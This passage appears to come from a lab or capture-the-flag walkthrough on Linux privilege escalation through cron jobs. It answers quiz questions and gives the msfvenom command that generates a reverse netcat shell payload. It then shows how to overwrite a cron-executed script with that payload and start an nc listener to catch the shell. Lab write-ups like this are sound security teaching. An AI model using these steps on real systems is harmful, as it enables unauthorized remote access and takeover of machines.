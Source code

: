 * Now, on our host machine- let's create a payload for our cron exploit using msfvenom. 

* What is the flag to specify a payload in msfvenom?

    `-p`

* Create a payload using: **"msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R"**

    ![task8-msfvenom](./images/task8-msfvenom.png)

* What directory is the "autoscript.sh" under?

    `/home/user4/Desktop/`

    ![task8-crontab](./images/task8-crontab.png)

* Lets replace the contents of the file with our payload using: **"echo [MSFVENOM OUTPUT] > autoscript.sh"**

    ![task8-echo](./images/task8-echo.png)

* After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: **"nc -lvnp 8888"** and wait for our shell to land!

    * Step 1 create simple http server on our machine

        ![task8-http](./images/task8-http.png)
